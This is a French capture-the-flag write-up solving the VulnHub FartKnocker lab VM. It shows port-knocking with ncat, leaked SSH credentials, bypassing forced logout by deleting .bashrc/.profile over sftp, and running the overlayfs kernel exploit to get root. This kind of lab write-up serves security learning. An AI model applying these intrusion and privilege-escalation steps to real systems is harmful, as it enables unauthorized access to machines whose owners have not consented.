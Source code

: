 # Solution du CTF FartKnocker de VulnHub

[TopHatSec: FartKnocker](https://vulnhub.com/entry/tophatsec-fartknocker,115/) est le dernier d'une série de 3 CTFs. Le titre du CTF laisse entendre qu'il y aura du port-knocking (tenter de se connecter à une suite de ports dans un ordre précis en ouvre un autre).

Pou commencer on dispose juste du port 80 :

```
Nmap scan report for 192.168.56.101
Host is up (0.00018s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Sur la page du site on trouve une capture réseau au format pcap. On l'ouvre avec `Wireshark` et on trouve quelques tentatives (flag `SYN` mais réponse `RST`) pour accèder à des ports TCP.

D'abord une série sur les ports 7000, 8000 puis 9000 et ensuite une autre série avec les même ports et une tentative final sur le port 8888.

Je reproduis la séquence avec `ncat` :

```bash
ncat -z 192.168.56.101 7000; ncat -z 192.168.56.101 8000; ncat -z 192.168.56.101 9000; ncat -z 192.168.56.101 8888
```

et lors d'un nouveau scan de ports, on a un nouveau service :

```
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    /burgerworld/
```

Le port ne retourne que le message `/burgerworld/`. On se rend donc sur ce path sur le port 80 et on a un nouveau fichier pcap...

Sur celui-ci on a des données transmises lors de la connecion au port 8080 :

```

                      MMMMMMM           MMMMMMH 
                HMMMMM:::::::.MMMMMMMMMM:::::.TMM
              MMMI:::::::::::::::::::MMH::::::::TM
            MMIi::::::::::::.:::::::::::::::::::::MMMM
           MT::::.::::::::::::::::::::::::::::::.::=T.IMMM
         MMMi:::::::::::::::::::::::::::::::::::::::::::MT)MM
     MMMI.:::::::::::::::::::::::::::::::::::::::::::.:::M= MM
   XMXi::::::::::::::::::::::.:::::::::::::::::::::::::::::::=MM
   MMi::::::::::::::::::::::::::::::::::::::::::::::::::.::..:=MMM
  MM:MMT:::::::::.:::::::::::::::::.:::::::::::::::::::::::::::MiMM
   MMM::::::::::::::::::.::::::::::::::::::::::::::.::::::::::.TM.MM
   MMi::::::::::::::.::::::::::::::::::::::::::::::::::::::.:::.:: M
   MM:::.::::::::::::::::::::::::::::::::.:.:::::::::::::::::::::: XM
 MM:MT::.::::::::::::::::::::::::::::::::::::::::::::::::::::::::::XM
IMM:::.::::::::::::::::::::::::::::::::::: :::::::::::::::::::::::.=M
 MM::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: :::M
 XMT:::::::::::::::::::::: ::::::::::::::::: : ::::::::::::::::::: iM
   MiMi:::::::::: :::::::::::::::::::::::::::::::: ::::::::::::::.:IM
     M::::::HH::::::::::::::::::::::::::::::::::::::::::::::::::::: M
     MT:::::iM::::::::Hi:iXH:::ii::XH:::::::::::::.::::::::::::::.:.M
      MX:::::iMX:i::::iMi:iMH::XH::Mi:::::::::::::::::::::::::::::: M
        Mii::::HMH:::::iMH::MH=:MM=TMi::::::::::::::::::::::::::::::MM
          MMMMMMMMMMMXTi:MMHi:HMMIMMMMii::::::::::::::::::::::::::::XM
           XXOXMMT:. ::T= :IMMMMMMM=iXMii:::::::::::::::::::::::::: MM
            MMMH:::.:::::::.::::.::::.:XMi::::::::::::::::::::::::::MM
           XMM::.:.:..::..:.:.::.:.::: ::XMi::::::::::::::::::::::::MX
          XMMT::::.:.::.::::.::.::::::::.::XH:::::::::::::::::::::: M
          HMX::...:..::..:.:.::::::..... :::XX::::::::::::::.:::::. M
          MM:::....:::::.::::::..:::::.:..:::HX::::::::::::::::::::=M
          MX::::::::::::::::::::::..::::.:..::X::::::::::::::::::::IM
         XMI..  .:.::....:..::::.:: ::...::.:.MH:::::::::::::::::.: M
         MM:. ::..::....::.::::::....:.:...:..MT::.   ::::::::: :..IM
         MM=:::::.::.:::::..::::.: .::..::..::Mi:::::::::::::::::: MM
         MMI:::...:  .::..::::::.:::::::.::::TM:::::::::::::::::::=MO
          MH.: .::::.::.. .:::::iLMXX=::::.:.Mi::::::: ::::::::::.MM
          MX:.:..:: .:.:.:.: :MMM:::..:::::.HM:::: :::::::::::::.MM
          MM:::...::....: ::IMT:::.:...:.::.MT::::::: ::::::::: MM
           M=::..::::..:::MM:i:..::.:...: ::M:::: ::: ::::::::::MI
           MH::: :.:.: MMMM=:::.:.:...:....iM::: ::::::  ::::::LM
          MMMMT.::. ::TM:::::..::::::::.::.IM::::HH:::::::::::.MO
           MM:LM::T:MT.:: .......:....:.:: TMMiXMT.MH:::.::::.:M=
            M:. :::MMi:::MMMM=::::::.::..::=MMMMMMXMH:::.:::::MM
           XMI: :..::=MX  :M::.......:...:::.MXTHM MH:::.: :.XM
           MM XMMI IM    M   ................:: :MIIM:::::::MMO
            MMXXMILM  .ML.= :.:::....:.:..::.:..:::MMT:::::TMM
              MXMLMMMT::.:...:........ ....::.:.=.MMMM:::::MM
              MHM=:: :.:::...::::.:...:.....:: =MMM==Mi::::M
              MM=:::.......:.:.::.:.::...:.: ::  . ::=M:: MM
             MMi:=XMMMi::::...:::::.::.:::::::::..: ::Mi:=MT
            MM=:I::  :iMH==:::::.::.:::::::::::::::.::MT:XMT
           MT=:=MMMMMMM=HM::::.::::::MMT=Mi::::::..:::MI=MM
          M ::::::.=I= .MX:..: ::::.::MX::::.:::.:.  .XMMM
         M:MMMMMMM=.::::  ::.::...:.MMIM::.:::.::..::::M
                 M=:: : ::::.==XMMM:XMMM=:::.::.:.::::.M
                 M=.IMMM )X   M  MMMMMM=:::..::..:::.::M
                 MM  X  MMM:MMMMMMMMM=:::.:.:.. .:.::::M
                  MIMMMMMMMMMMMMMMI::::::::.:::.:...:.:M
                MMMMMMMMMMMMMX:.   .:..::....:...:::.:iM
               MMMMMMMMMMI::::::.:.::...:....:.....:.:=M
           MMMMMMMMMI:::::.:.. :.::.::..........:..:..:M
            M=:  :..::..::.........::.......::.:.....: M
             MMMi::::::.:.:==MMMMMMMMMT:.:.:::..:::..: OM
               MM=::..: OMMMM         MMMT:::....:.::: :M
                M=::::MM                MMI:::........:OM
                 MMMMM                   MMH:::..::MMMMMM
                                          MMMMMMMMMMMMMMM


                     CAN YOU UNDERSTAND MY MESSAGE?!



			  eins drei drei sieben
```

Soit 1 3 3 7 en allemand. On se connecte au port 1337 et on obtient le lien `/iamcornholio/` qui délivre le message `T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK` soit, décodé en base64 :

> Open up SSH: 8888 9999 7777 6666

De la même façon je suis la séquence de ports avec ncat et je peux désormais accèder au port 22. N'ayant pas d'identifiants particuliers à saisir j'utilise `Beavis` mais le service donne suffisamment d'informations :

```bash
$ ssh Beavis@192.168.56.101
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ED25519 key fingerprint is SHA256:Uezp17zkhiRikxBiu5NIZtI0d6nSfyNmetGpcB8AjOA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.101' (ED25519) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
Beavis@192.168.56.101's password:
```

On utilise ces identifiants pour nous connecter mais on est aussitôt déconnectés :

```bash
$ ssh butthead@192.168.56.101
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

 * Documentation:  https://help.ubuntu.com/
Last login: Tue Mar  3 01:02:49 2015 from 192.168.56.102
You are only logging in for a split second! What do you do!
```

On peut passer à SSH la commande à exécuter, ici bash :

```bash
$ ssh butthead@192.168.56.101 bash
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
ls -al
total 28
drwxr-xr-x 3 butthead butthead 4096 Mar  3  2015 .
drwxr-xr-x 4 root     root     4096 Mar  3  2015 ..
-rw-r--r-- 1 butthead butthead  220 Apr  8  2014 .bash_logout
-rw-r--r-- 1 butthead butthead 3685 Mar  3  2015 .bashrc
drwx------ 2 butthead butthead 4096 Mar  3  2015 .cache
-rw-rw-r-- 1 butthead butthead   67 Mar  3  2015 nachos
-rw-r--r-- 1 butthead butthead  747 Mar  3  2015 .profile
tail .bashrc
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

logout
pkill -Kill -u butthead
TMOUT=1
```

Les fichiers `.bashrc ` et `.profile` ont des commandes qui terminent notre connexion. On peut utiliser `sftp` pour les supprimer :

```bash
sftp> rm .bashrc 
Removing /home/butthead/.bashrc
sftp> rm .profile
Removing /home/butthead/.profile
```

Une fois connecté on ne voit rien de particulier pour passer root. Le système semble toutefois vulnérable à `DirtyCOW` et `overlayfs`.

L'exploit pour `DirtyCOW` semble rendre le système instable et je suis obligé de le redémarrer.

L'exploit pour `overlayfs` marche bien en revanche :

```bash
$ gcc -o ofs ofs.c
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(butthead)
# cd /root
# ls
SECRETZ
# cat SECRETZ
You have done a great job, if you can see this, please shoot me an email
and let me know that you have beat this box!

SECRET = "LIVE LONG AND PROSPER, REST IN PEACE MR. SPOCK"

admin@top-hat-sec.com
```

Autre solution possible : l'utilisateur local `beavis` avait un mot de passe relatif au dessin animé (voir [ContactL3ft's Randomness: TopHatSec - Fartknocker VM](https://c0ntactl3ft.blogspot.com/2015/04/tophatsec-fartknocker-vm-hosted-on.html)).

Le mot de passe n'étant pas dans la wordlist rockyou, une attaque bruteforce n'aurait pas aboutit.

*Publié le 2 janvier 2023*
